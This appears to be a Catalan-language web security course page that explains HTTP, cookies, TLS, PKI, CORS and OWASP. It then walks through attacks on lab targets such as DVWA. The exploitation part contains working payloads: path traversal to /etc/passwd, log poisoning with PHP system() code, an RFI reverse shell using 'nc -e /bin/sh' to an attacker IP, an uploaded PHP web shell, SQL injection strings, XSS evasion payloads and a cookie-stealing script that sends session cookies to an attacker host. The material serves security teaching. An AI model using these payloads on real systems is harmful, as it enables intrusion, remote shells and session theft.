




HTTP
HTTP (Hypertext Transfer Protocol) és el protocol principal que permet la comunicació de dades a la World Wide Web. És el conjunt de regles que defineixen com es donen format i es transmeten els missatges entre els navegadors web (clients) i els servidors web. En termes senzills, és el "llenguatge" que fa possible que el teu navegador sol·licite informació d'un lloc web i que el servidor web la retorne.
L'intercanvi d'hipertext: Sol·licitud i Resposta
El funcionament d'HTTP es basa en un model de sol·licitud i resposta. Aquest procés és el que coneixem com a intercanvi d'hipertext, ja que es transmeten arxius d'hipertext (HTML) juntament amb altres dades.

Sol·licitud (Request): Quan escrius una adreça web al teu navegador (per exemple, www.google.com), aquest envia una sol·licitud HTTP al servidor de Google. Aquesta sol·licitud inclou informació com:
- Mètode: Indica l'acció que es vol fer (per exemple, GET per a obtindre dades, POST per a enviar-les).
- URL: L'adreça del recurs que es demana.
- Capçaleres (Headers): Informació addicional, com el tipus de navegador que uses o l'idioma preferit.
Resposta (Response): El servidor rep la sol·licitud, la processa i envia una resposta HTTP al navegador. Aquesta resposta conté:
- Codi d'estat: Un número que indica el resultat de la sol·licitud (per exemple, 200 OK significa que tot ha anat bé; 404 Not Found vol dir que la pàgina no existeix).
- Capçaleres (Headers): Informació sobre el tipus de contingut que s'envia (HTML, imatges, etc.).
- Cos (Body): Les dades sol·licitades, com el codi HTML de la pàgina web que visualitzaràs.
HTTP vs. HTTPS
És important diferenciar-lo de l'HTTPS (Hypertext Transfer Protocol Secure). Mentre que HTTP transmet les dades de manera simple, HTTPS encripta la comunicació entre el navegador i el servidor. Això vol dir que la informació, com les teues contrasenyes o dades bancàries, està protegida i no pot ser interceptada fàcilment. Per això, sempre veuràs HTTPS en llocs web que gestionen informació sensible, la qual cosa s'indica amb un cadenat 🔒 en la barra d'adreces del navegador.
cookies
Les cookies són petits arxius de text que un lloc web envia al teu navegador quan el visites i que s'emmagatzemen al teu dispositiu (ordinador, mòbil, tauleta, etc.). La seva funció principal és guardar informació sobre la teva activitat al lloc web per a recordar les teves preferències i millorar la teva experiència de navegació.
Pensa en les cookies com una mena de "memòria" que tenen els llocs web. Gràcies a elles, un lloc pot recordar qui ets, què has fet i quins són els teus interessos, sense que hagis d'introduir tota la informació de nou cada vegada que hi tornes.
Les cookies s'utilitzen amb diferents finalitats, que poden ser tant útils com controvertides:
- Gestió de sessions: Permeten que, quan inicies sessió en un lloc web, no hagis de posar el teu nom d'usuari i contrasenya en cada pàgina que visites. També són essencials per a mantindre un carret de la compra en línia actiu mentre continues navegant.
- Personalització de l'experiència: Recorden les teves preferències, com l'idioma escollit, la configuració de la pàgina o la regió. Això fa que la teva navegació siga més fluida i adaptada a tu.
- Anàlisi de dades: Recullen informació anònima sobre el teu comportament de navegació (quines pàgines visites, quant de temps hi passes, des d'on hi arribes, etc.). Aquestes dades ajuden els propietaris del lloc web a entendre com es fa servir i a millorar-lo.
- Publicitat personalitzada: Aquesta és una de les funcions més discutides. Les cookies poden rastrejar els teus hàbits de navegació entre diferents llocs per a crear un perfil dels teus interessos i mostrar-te anuncis que et puguen ser rellevants.
Tipus de cookies
- Pròpies
- De tercers
- De sessió
- Persistents
Degut a la seva capacitat per a rastrejar l'activitat en línia, la majoria de llocs web tenen l'obligació legal d'informar-te sobre l'ús de cookies i demanar el teu consentiment abans d'utilitzar-les. Per això, quan entres en un lloc web per primera vegada, sovint apareix un bàner de cookies on pots acceptar, rebutjar o configurar les teves preferències.
Com "apareix" una cookie
- En la primera petició, el server contesta en la capçalera de resposta amb una ordre 'Set-Cookie: session-id=123456'
- El navegador emmagatzema el valor
- A partir d'este moment, en totes les peticions, s'enviarà la cookie
la Set-Cookie, pot incloure més atributs opcionals:
- Data expiració
- Domini
- Path
- Atributs de seguretat
Seguretat en http (https)
HTTPS (Hypertext Transfer Protocol Secure) és una extensió del protocol HTTP que afegeix una capa de seguretat. Pensa en HTTPS com l'HTTP, però amb un escut protector que garanteix que la comunicació entre el teu navegador i el servidor web siga segura, privada i íntegra.
Pilars d'https
- Criptografia: TLS , tunel
- PKI (Publik Key Infraestructure)
En açp es consegueix: Xifrar les comunicacions, certificar la identitat del emisor, i la integritat de les dades trameses
Xifrat
Tecnologia de xifrat
 TLS 1.3 és la darrera versió del protocol TLS (Transport Layer Security) i representa una millora significativa respecte a TLS 1.2, centrant-se principalment en la seguretat i la velocitat.
- Algorismes de xifratge admesos més moderns i robustos. Obligatori en TSL 1.3
- Perfect Forward Secrecy: Assegura que cada sessió utilitze una clau d'encriptació única, obligatòria en TLS 1.3
- Handshake més segur
- Handshake més ràpid
- Zero Round-Trip Time: TLS 1.3 introdueix la possibilitat de reprendre una sessió anterior amb zero rondes de comunicació
PKI
El PKI (Public Key Infrastructure), o Infraestructura de Clau Pública, és un sistema que gestiona les claus públiques i privades per a crear, gestionar, distribuir, utilitzar, emmagatzemar i revocar certificats digitals. En essència, és el marc tecnològic que permet la seguretat i la confiança en les comunicacions digitals, especialment a internet.
El PKI no és un producte o tecnologia única, sinó un conjunt de components que treballen junts per a gestionar la criptografia asimètrica. Els elements clau són:
- Autoritat de Certificació (CA): És el component més important del PKI. La CA és una entitat de confiança (com Let's Encrypt o DigiCert) que emet, signa i revoca els certificats digitals. La seva funció és verificar la identitat de les entitats (persones, servidors) que sol·liciten un certificat.
- Certificat Digital: Un arxiu electrònic que conté la clau pública d'una entitat, la seva identitat (nom de domini, organització, etc.) i la signatura digital de la CA. Aquest certificat serveix per a demostrar que la clau pública pertany realment a l'entitat que la reclama.
- Autoritat de Registre (RA): Actua com a intermediari entre l'usuari i la CA. La RA verifica la identitat de l'usuari i autoritza l'emissió del certificat, però no el signa.
- Autoritat de Validació (VA) o Directori: Una base de dades on s'emmagatzemen els certificats digitals i des d'on es poden consultar.
- Repte de revocació: Mecanismes per a revocar certificats que han sigut compromesos abans de la seva data de caducitat, com les llistes de revocació de certificats (CRL) o el protocol OCSP.
Capçaleres de seguretat
Us segur de http cookies
A més dels atributs Path i Domain, les cookies poden portar també uns atributs de seguretat
SameSite
Secure
HttpOnly
http Access Control (CORS)
El CORS (Cross-Origin Resource Sharing) és un mecanisme de seguretat implementat als navegadors web que permet que un lloc web (el client) sol·licite recursos a un servidor que es troba en un domini diferent. Sense CORS, els navegadors bloquejarien per defecte aquestes peticions per a evitar atacs de seguretat, com el "Cross-Site Request Forgery" (CSRF).
CORS comprova dos tipus de sol·licituds: Simples i Verificades (preflighted)
Atacs a http
Existeixen diversos tipus d'atacs que aprofiten les característiques de HTTP
- HTTP Host Header Injection
- HTTP Request/Response Splitting
- HTTP Request Smuggling
OWASP
OWASP (Open Worldwide Application Security Project) és una fundació sense ànim de lucre global que es dedica a millorar la seguretat del programari. L'organització funciona com una comunitat oberta que proporciona recursos gratuïts i de codi obert per a ajudar desenvolupadors, professionals de la seguretat i organitzacions a crear aplicacions més segures.
L'objectiu principal d'OWASP és conscienciar sobre els riscos de seguretat del programari i proporcionar les eines i la informació necessària per a mitigar-los. Entre els seus projectes més destacats es troben:
- OWASP Top 10: Aquest és, sens dubte, el recurs més conegut d'OWASP. És un informe que s'actualitza periòdicament i identifica les 10 vulnerabilitats de seguretat més crítiques per a les aplicacions web. Serveix com a guia de referència per a desenvolupadors i professionals de la seguretat per a prioritzar els esforços en protegir les aplicacions contra els riscos més comuns. Les vulnerabilitats típiques que s'hi troben inclouen injeccions SQL, control d'accés trencat o errors de configuració de seguretat.
- Guies i metodologies: OWASP publica una gran varietat de documents i guies per a ajudar les organitzacions a millorar els seus processos de seguretat. Per exemple, la OWASP Application Security Verification Standard (ASVS) proporciona un marc per a provar i verificar els controls de seguretat de les aplicacions.
- Eines de codi obert: L'organització desenvolupa i manté diverses eines per a la seguretat del programari, com el Zed Attack Proxy (ZAP), una eina de codi obert per a la prova de penetració que permet trobar vulnerabilitats en aplicacions web.
- Capítols locals i conferències: OWASP té capítols locals en molts països del món i organitza conferències com l'OWASP Global AppSec, on la comunitat comparteix coneixement, investigació i experiències.
L'OWASP Top 10 és un informe de conscienciació estàndard de la indústria que detalla les 10 vulnerabilitats de seguretat més crítiques per a les aplicacions web. Publicat per la fundació OWASP, serveix com a guia fonamental per a desenvolupadors, professionals de la seguretat i organitzacions per a prioritzar els seus esforços en la identificació i mitigació dels riscos de seguretat més comuns i perillosos.
- No és una llista exhaustiva
- S'actualitza periòdicament
- Serveix com a punt de partida
OWASP Vulnerable Web Applications Directory (VWAD)
El OWASP Vulnerable Web Applications Directory (VWAD), o Directori d'Aplicacions Web Vulnerables d'OWASP, és un directori complet d'aplicacions web i mòbils vulnerables conegudes. És un recurs molt valuós per a desenvolupadors, provadors de seguretat i estudiants que volen practicar les seues habilitats en un entorn segur i legal.
Es poden usar per a aprendre, formar-se i provar tècniques de seguretat ofensiva i defensiva, en lloc d'intentar trobar vulnerabilitats en llocs web reals, cosa que és il·legal i poc ètica
Altres projectes d'aplicacions vulnerables per aprendre
- CI/CD-Goat
- OWASP DVWS
- vAPI
- DVWS-node
- level-up!
Principals Vulnerabilitats Web i la seua explotació

Existeixen llocs on trovar maquines vulnerables, i algunes es poden instal·lar directament en kali linux
Per començar, les més utilitzades son "dvwa" i "juice-shop"
# dvwa-start
# dvwa-stop # juice-shop-start
# juice-shop-stop En TyHackMe també estan les màquines
En PentesterLab també
En Academia de Seguridad Web de PortSwigger també
Abans de explicar les diferents categories d'atacs, es necessari coneixer el funcionament d'alguna eina que funcione com a proxy-web.
Estes ferramentes es situen en mig de les comunicacions entre el navegador del client i el servidor web i intercepten el trànsit (REQUEST / RESPONSE)
per inspeccionar i modificar el contingut, i poder així fer els atacs.
Les dos mes conegudes
- Burp Suite
- OWASP ZAP
A continuació, dos videos per introduir-se en estes ferramentes
Burp Suite i ZAPLFI , RFI
LFI (Local File Inclusion)
El LFI (Local File Inclusion) és una vulnerabilitat de seguretat en aplicacions web que permet a un atacant llegir, i de vegades executar, arxius des del servidor. L'atac es produeix quan una aplicació web inclou un arxiu basat en l'entrada de l'usuari sense validar-lo o sanejar-lo correctament.
Llegir fitxers del servidor
L'atac més simple es basa en navegar i detectar una URL vulnerable, amb parametres, per exemle
https://exemple.com/pagina.php?lang=cat
En este cas el paràmetre lang=cat, es podria intentar manipular....
https://exemple.com/pagina.php?lang=../../../../etc/passwd
https://exemple.com/pagina.php?lang=/etc/passwd Si el servidor és vulnerable, el codi intentaria incloure el contingut de l'arxiu /etc/passwd (un arxiu de Linux que conté informació d'usuaris), i el contingut d'aquest arxiu es mostraria a la pàgina web, exposant informació sensible
En la màquina DVWA, es proposa la URL ..
/dvwa/vulnerabilities/fi/?page=file1.php
Execució remota de codi (RCE) mitjantçant log poisoning + LFI
Per conseguir una execució remota de codi, es necessari trovar la forma de escriure en algun fitxer, inserir codi en ell, i després visualitzar el fitxer amb LFI. Una tècnica per fer això és el log poisoning o enverinament de logs.
Una forma es utilitzar el fitxer /var/log/apache2/access . Este fitxer registra tots els accesos al servidor web.
El valor User-Agent és el tipus de navegador que està accedint, i queda registrat.
La informació de User-Agent es pot canviar amb BurpSuite o ZAP, interceptant el http-request, i modificant el contingut
Per exemple, podem posar un codi php : User-Agent: <?php system('uname -a');?>
Una vegada modificat el http-request i enviat al servidor, este valor (codi maliciós) quedarà escrit en el log
Sols ens queda visualitzar amb LFI el fitxer log, i el codi inserit s'executarà ==> (RCE)
En la barra del navegador: https://exemple.com/pagina.php?lang=/var/log/apache/access.log
En este cas, sols per provar, s'ha inserit una simple ordre que mostra informació del sistema, però de igual manera es podria inserir un sezill codi que execute una shell inversa, obrint un terminal interactiu que permetria executar comandos directament.
Altres fitxers interessants per fer log poisoning:
- /var/log/auth.log
- /var/log/vsftpd.log
- /var/log/apache2/error.log
- /proc/self/environ
- /proc/self/fd
ssh <? php system($GET['cmd']);?>@ip_victima
Accedir al servidor ftp, posant en el nom d'usuari el codi a inserir
User-Agent de http-request
Abans de fer el log poisoning, s'ha de comprovar si es disposa d'accés a algun d'estos fitxers.
Wrappers en php
En principi per explotar LFI usarem
/dvwa/vulnerabilities/fi/?page=include.php
Usant un wrapper
/dvwa/vulnerabilities/fi/?page=php://filter/resource=include.php
Aparentment, el resultat és el mateix, degut a que el servidor interpreta i torna el html. Per evitar això..
?page=php://filter/convert.base64-encode/resource=include.php
El resultat, serà en base64, però no interpretat, sinó el codi del fitxer. Encara quedarà decodificar-lo, amb cyberchef , per exemple
Es pot consultar documentació sobre els Wrappers de php en: https://www.php.net/manual/en/wrappers.php
Remote File Inclusion (RFI)
Es tracta d'una variant de LFI que permet a un atacant accedir a una connexió des de l'objectiu per incloure un fitxer d'un host extern, en lloc d'un fitxer local.
El LFI te unes limitacions que si es pot fer un RFI, estes desapareixen
Encara que els exemples que s'estan mostrant son en PHP, no s'ha d'oblidar que existeixen altres llenguatges de servidor com ASP, JSP, o Python a través dels seus Frameworks web, com Flask o Django, susceptibles de tindre els mateixos problemes.
Com fer una shell inversa aprofitant RFI
Considerem que la IP atacant és la 10.0.10.40 i la ip victima és la 10.0.10.50
$ nc -lnvp 4444
mkdir /tmp/files
cd /tmp/files
python3 -m http.server 80
<?php
passthru("nc -e /bin/sh 10.0.10.40 4444");
?>
Ara, per executar la reverse shell..
en el navegador , posem la ip de la victima seguit del codi RFI
10.0.10.50/dvwa/vulnerabilities/fi/?page=http://10.0.10.40/reverse.txt
File upload vulnerabilities
Les vulnerabilitats de càrrega d'arxius (o file upload vulnerabilities) són defectes de seguretat en aplicacions web que permeten a un atacant pujar arxius maliciosos a un servidor. Si l'aplicació no valida, saneja o processa correctament l'arxiu pujat, l'atacant pot aprofitar-ho per a dur a terme una gran varietat d'atacs, sent l'execució de codi remot (RCE) el més perillós.
Si el codi de l'aplicació confia massa en l'entrada de l'usuari i no valida aspectes crucials com el tipus d'arxiu, el contingut o el nom de l'arxiu, un atacant pot pujar un fitxer que no hauria de ser acceptat.
-
Alguns dels problemes que poden causar estes vulnerabilitats
- Atacs del costat del server (php,jsp, asp ..)
- DoS. Denegació amb un fitxer mooolt gran
- Atacs del costat del client. XSS, defacement, phishing
- Disparar fallos en altres sistemes (explotar fallos en llibreries)
- Altres. (pujar malware, .. )
en dvwa es pot practicar ...
hi ha un formulari per pujar imatges, però es pujarà un fitxer .php que conte codi maliciós i després s'executarà
< Nom del fitxer 'shell.php'
?php system($_GET['cmd']);?>Es puja el fitxer amb el botò de pujar imatges
S'executa amb: 10.0.10.99/dvwa/hackable/uploads/shell.php?cmd=id
Compte amb:
"10.0.10.99/dvwa/hackable/uploads/shell.php?cmd=uname -a" , perque no funciona degut al espai que hi ha entre uname i -a
La solució serà usar cyberchef amb la opció "Encode all special chars" i ens calcula "uname%20-a" que ja no conté espai i funciona si es posa en la url
"10.0.10.99/dvwa/hackable/uploads/shell.php?cmd=uname%20-a"
Acces control vulnerabilities
La vulnerabilitat de seguretat IDOR (Insecure Direct Object Reference) és un tipus de vulnerabilitat de control d'accés que permet a un atacant accedir a recursos als quals no hauria de tindre permís. Aquesta vulnerabilitat es produeix quan una aplicació utilitza un identificador d'objecte (com un número, un nom d'arxiu o una clau) de forma directa en un paràmetre URL sense verificar si l'usuari actual té els permisos adequats per a accedir a aquest objecte.
IDOR es pot manifestar de moltes maneres
Atac
La primera i la última es pot manipular la URL directament i provar amb altre numero
El GET, cal interceptar la petició amb BurpSuite i canviar el numero, i enviar la petició modificada al server
SQLi
La injecció SQL (SQL Injection) és una de les vulnerabilitats de seguretat més antigues i comunes en aplicacions web. Aquest atac es produeix quan un atacant pot inserir codi SQL maliciós en una consulta enviada a la base de dades a través de les dades d'entrada d'una aplicació.
Com funciona una injecció SQL
Normalment, les aplicacions web utilitzen consultes SQL per a interactuar amb la seva base de dades. Per exemple, per a autenticar un usuari, el codi PHP podria construir una consulta a partir d'un nom d'usuari i una contrasenya que l'usuari ha escrit en un formulari:
SELECT * FROM usuaris WHERE nom = 'usuari' AND contrasenya = 'contrasenya';
Una aplicació és vulnerable a la injecció SQL si no saneja correctament l'entrada de l'usuari. Un atacant pot aprofitar-se d'això. Si l'atacant introdueix al camp de contrasenya:
' OR '1'='1
La consulta es convertiria en
SELECT * FROM usuaris WHERE nom = 'usuari' AND contrasenya = '' OR '1'='1';
Com que la condició '1'='1' sempre és vertadera, la base de dades retornarà totes les files, permetent que l'atacant iniciï sessió sense saber la contrasenya correcta.
- Esta inserció es pot realitzar de diverses formes
- Un camp d'un formulari web
- Una capçalera http
- Pujada de fitxers al servidor que després seran executats
- etc..
Tipus de injeccions SQL
- Injecció clàssica: L'atacant manipula la consulta per a accedir directament a dades sensibles o canviar la lògica de la consulta. L'exemple anterior n'és una mostra.
- Injecció cega (Blind SQL Injection): Es produeix quan la base de dades no retorna errors o dades directament a l'atacant. En lloc d'això, l'atacant formula preguntes la resposta de les quals es pot inferir a partir del comportament del lloc web. Per exemple, si una consulta retorna un error, la pàgina mostra un missatge, però si l'atacant aconsegueix que la consulta sigui vertadera, la pàgina es carrega normalment.
- Injecció Out-of-Bond. Si es torna un resultat, es fa per un canal diferent al utilitzat per introduir la injecció. La resposta a la consulta no es presenta en la resposta a la petició http.
- Injecció a segon ordre: Es produeix quan l'aplicació emmagatzema dades malicioses en una base de dades i les executa més tard en una consulta diferent.
Tècniques d'injecció
Blind Injection
La injecció SQL cega (Blind SQL Injection) és una tècnica d'atac on un atacant pot explotar una vulnerabilitat de injecció SQL, però sense que la base de dades retorne cap error o dada directament a la pàgina web. En lloc de veure el resultat de la consulta a la pantalla, l'atacant infereix la informació de la base de dades a partir del comportament de l'aplicació.
Com funciona la injecció cega?
A diferència d'una injecció SQL clàssica, on l'atacant pot veure el resultat d'una consulta directament, en la cega, ha d'utilitzar mètodes indirectes per a "endevinar" la informació. L'atac es basa en fer preguntes de "sí o no" a la base de dades i observar la resposta de l'aplicació web. Per exemple, una pregunta podria ser: "La primera lletra de la contrasenya de l'administrador és una 'a'?
- Els dos tipus principals d'injecció cega són
- Injecció basada en booleans: L'atacant envia una consulta que inclou una condició de vertader o fals. Si la condició és vertadera, la pàgina web es comporta d'una manera (per exemple, es carrega normalment). Si és falsa, es comporta d'una altra (per exemple, mostra un missatge d'error o no retorna cap resultat). Analitzant aquests canvis, l'atacant pot anar inferint la informació caràcter per caràcter
- Injecció basada en temps (Time-based): S'utilitza quan l'aplicació no mostra cap diferència observable en la resposta (ni errors ni canvis de contingut). L'atacant envia una consulta que inclou una funció que fa que la base de dades s'endarrereix a respondre si una condició és vertadera. Per exemple, es pot enviar una consulta amb una condició que, si es compleix, fa que el servidor esperi 10 segons abans de respondre. Si la pàgina triga a carregar, l'atacant sap que la condició era certa. Aquest procés es repeteix per a cada caràcter que es vol extraure.
Per què és tan perillosa?
Tot i que pot ser un procés més lent i complex que la injecció SQL clàssica, la injecció cega és igualment perillosa. Un atacant pot automatitzar el procés amb eines especialitzades per a:
- Extraure bases de dades senceres: Robar noms d'usuaris, contrasenyes, dades de clients i qualsevol altra informació sensible.
- Aconseguir el control del sistema: En alguns casos, un atacant pot arribar a executar comandes del sistema operatiu si la base de dades té els permisos adequats.
Aquest tipus d'atac és especialment difícil de detectar perquè sovint no deixa cap rastre de dades en la resposta de l'aplicació, fent que molts desenvolupadors no se n'adonin fins que ja és massa tard. La millor manera de previndre'l és utilitzar consultes parametritzades per a totes les interaccions amb la base de dades.
automatització del descobriment i explotació de injeccions SQL
Existeixen nombroses eines que permeten automatitzar el procés de detecció i exfiltració de dades en vulnerabilitats de injecció SQL. Hi ha de lliures, propietaries, especéfiques com a part d'una solució integrada. Entre les més destacades i conegudes estan:
- sqlmap
- jSQL injection
- NoSQLMap
- BBQSQL
sqlmap
És una eina de codi obert escrita en python i un test de penetració que automatitza el procés de detecció i explotació de vulnerabilitats d'injecció SQL en aplicacions web i, posteriorment, de presa de control del servidor de la base de dades
SQLMap ofereix un suport complet per als següents SGBD, cosa que significa que pot explotar vulnerabilitats, enumerar bases de dades, taules i columnes, i extreure dades amb una gran precisió: MySQL i MariaDB, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, i moltes més.
A més a més, soporta integració amb Meterpreter de Metasploit
Aquest vídeo tutorial mostra com fer servir SQLMap en un entorn de proves, que és una manera segura de practicar les tècniques d'auditoria de 12 minuts
jSQL Injection
És una eina multiplataforma de codi obert escrita en java, relativament fàcil d'utilitzar amb una GUI
En les ultimes versions de kali no ve incorporada, però es pot instal·lar fàcilment amb:
$ sudo apt update && sudo apt install jsql-injection
El lloc web Vulnweb.com disposa de varios llocs vulnerables on poder practicar
NoSQLMap
NoSQLMap és una eina de codi obert escrita en Python que automatitza la injecció de codi i altres vulnerabilitats en bases de dades NoSQL, especialment en MongoDB i altres bases de dades basades en JSON.
Aquesta eina està dissenyada per a auditar la seguretat de les aplicacions que utilitzen bases de dades NoSQL, ja que les tècniques d'injecció SQL tradicionals no són aplicables. NoSQLMap es va crear per a omplir el buit que va deixar l'eina SQLMap, ja que aquesta última se centra exclusivament en bases de dades SQL
BBQSQL
BBQSQL és una eina en linea de comandos de codi obert i escrita en python, que explota la injecció SQL cega (Blind SQL Injection) de manera automàtica. A diferència d'eines com SQLMap, que tenen una lògica complexa per a diferents SGBD i tipus d'injecció, BBQSQL se centra exclusivament en l'explotació de la injecció SQL cega i, per tant, no està lligada a un sistema gestor de base de dades (SGBD) específic de la mateixa manera que altres eines més generals.
Encara que no esta lligada a cap SGBD, ofereix plantilles preconfigurades per alguns SGBD comuns, com: MySQL, PostgreSQL, Microsoft SQL Server (MSSQL), Oracle Database, SQLite
Cross-Site Scripting XSS
El Cross-Site Scripting (XSS) és una vulnerabilitat de seguretat en aplicacions web que permet a un atacant injectar scripts maliciosos
(generalment JavaScript) en pàgines web visualitzades per altres usuaris. L'atacant pot utilitzar aquests scripts per a robar dades,
segrestar sessions, manipular el contingut del lloc o redirigir usuaris a llocs maliciosos.
Aquesta vulnerabilitat apareix quan una aplicació web no valida ni saneja correctament l'entrada de l'usuari abans de mostrar-la a una altra pàgina.
XSS pot explotar-se amb múltiples propòsits. Els més comuns..
- Fer un "defacement" d'una web
- Capturar Cookies de sessió d'un usuari => (Session Hijacking o Cookie Hijacking)
Web defacement
El Web Defacement és un tipus d'atac a un lloc web on un atacant altera o substitueix la pàgina principal o una altra pàgina del lloc per un contingut propi. Aquest contingut maliciós pot ser un missatge polític, una firma de l'atacant, imatges, música o qualsevol altra cosa que l'atacant vulgui mostrar.
Tipus de XSS
Existeixen tres tipus principals d'atacs XSS, cadascun amb un mecanisme d'explotació diferent:
- XSS reflectit (Reflected XSS) Aquest tipus d'atac es produeix quan un script maliciós s'envia a través d'una petició HTTP i es "reflecteix" directament en la resposta del servidor.
- XSS emmagatzemat (Stored XSS) És el tipus de XSS més perillós. L'atacant injecta un script que s'emmagatzema de manera persistent en la base de dades del servidor.
- XSS basat en DOM (DOM-based XSS) En aquest cas, la vulnerabilitat es troba al costat del client, al codi JavaScript de la pàgina, no al servidor.
XSS reflectit (Reflected XSS)

Com funciona? L'atacant crea un enllaç maliciós amb el codi maliciós injectat. Normalment es fa arribar a la victima amb Enginyeria Social. Quan un usuari(victima) fa clic a l'enllaç, la petició s'envia al servidor, que la processa i inclou el codi a la resposta HTML. El navegador de l'usuari executa el codi maliciós com si fos una part legítima de la pàgina. Carrega i mostra la pàgina legítima i a més a més executa el codi maliciós
Exemple: Un atacant podria enviar un enllaç com
https://exemple.com/cerca?q=<script>alert('XSS');</script>.
Si el servidor reflecteix el paràmetre q sense sanejar-lo, l'script s'executarà al navegador de l'usuari.
També se sol utilitzar la funcio alert(1) per testar XSS
Evasió
Per evitar ser detectat per les possibles funcions que netegen el codi, es poden utilitzar algunes tècniques..
=<sCript>alert(1);</sCript> <img src=1 onerror=alert(1)> XSS emmagatzemat (Stored XSS)
Com funciona? L'atacant introdueix el codi maliciós en un camp d'entrada que es desa al servidor, com un comentari en un blog, un missatge en un fòrum o el nom d'usuari d'un perfil. Quan qualsevol altre usuari visita la pàgina que mostra aquest contingut, el codi s'executa automàticament al seu navegador.
Exemple: Un atacant escriu un comentari en un blog que conté un script maliciós. Quan un altre usuari llegeix el comentari, el script s'executa i roba la seva cookie de sessió, donant a l'atacant accés al seu compte.
Robatori de sessions (session hijacking)
Per practicar este apartat es pot utilitzar la secció XXS(Stored) de la DVWA.
En el formulari posem:
name: cookie!
message: <script> new Image().src="http;//10.0.10.40:8080?+document.cookie </script>
10.0.10.40 es la ip de l'atacant.
Desde l'atacant, s'obri un netcat que escolta nc -lnvp 8080
Esperem a que algú, admin, entre en la pàgina, i en el netcat obert es rep la cookie (PHPSESSID)
En el nostre navegador (atacant) , canviem la nostra cookie per la de la victima, i ja som "admin"
....
Hi ha pàgines on trobar payloads que es poden aplicar en cas de vulnerabilitat
Visita PayloadsAllTheThings. En esta web s'oferix un llistat extens de posibilitats i combinacions
XSS basat en DOM (DOM-based XSS)
